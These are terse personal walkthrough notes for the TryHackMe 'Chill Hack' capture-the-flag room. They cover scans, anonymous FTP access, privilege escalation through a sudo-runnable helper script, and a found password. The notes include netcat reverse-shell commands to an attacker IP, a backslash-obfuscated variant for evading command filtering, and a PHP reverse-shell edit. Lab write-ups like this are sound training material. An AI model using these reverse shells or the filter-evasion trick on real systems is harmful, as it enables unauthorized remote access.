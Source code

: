 https://tryhackme.com/room/chillhack



#############################
		Cosmin Tibuleac | 07.02.2022
#############################



export IP=10.10.175.82

## nmap:

`nmap -sC -sV -Pn -p- -T4 $IP | tee nmap.log`


## gobuster 

gobuster dir -u $IP --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster.log 


# FTP - Anonymous is allowed.

Logging in anonymously on the FTP server is allowed. 

Found the following file: **note.txt**

The file reads: "***Anurodh told me that there is some filtering on strings being put in the command -- Apaar***"

So, we have two potential usernames here: 
 - Anurodh
 - Appar  



## Matching Defaults entries for www-data on ubuntu: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User www-data may run the following commands on ubuntu: (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh


echo "sudo nc 10.8.22.238 9001" > /home/apaar/.helpline.sh
echo "nc 10.8.22.238 9001" > /home/apaar/.helpline.sh



## otal 44 drwxr-xr-x 5 apaar apaar 4096 Oct 4 2020 . drwxr-xr-x 5 root root 4096 Oct 3 2020 .. -rw------- 1 apaar apaar 0 Oct 4 2020 .bash_history -rw-r--r-- 1 apaar apaar 220 Oct 3 2020 .bash_logout -rw-r--r-- 1 apaar apaar 3771 Oct 3 2020 .bashrc drwx------ 2 apaar apaar 4096 Oct 3 2020 .cache drwx------ 3 apaar apaar 4096 Oct 3 2020 .gnupg -rwxrwxr-x 1 apaar apaar 286 Oct 4 2020 .helpline.sh -rw-r--r-- 1 apaar apaar 807 Oct 3 2020 .profile drwxr-xr-x 2 apaar apaar 4096 Oct 3 2020 .ssh -rw------- 1 apaar apaar 817 Oct 3 2020 .viminfo -rw-rw---- 1 apaar apaar 46 Oct 4 2020 local.txt


echo " netcat 10.8.22.238 9001 -e /bin/sh" > /home/apaar/helpline.sh

v2: e\ch\o  "" netcat 10.8.22.238 9001 -e /bin/sh" > /home/apaar/helpline.sh


sed /127.0.0.1/10.8.22.238/g php-reverse-shell.php 


Anurodh
!d0ntKn0wmYp@ssw0rd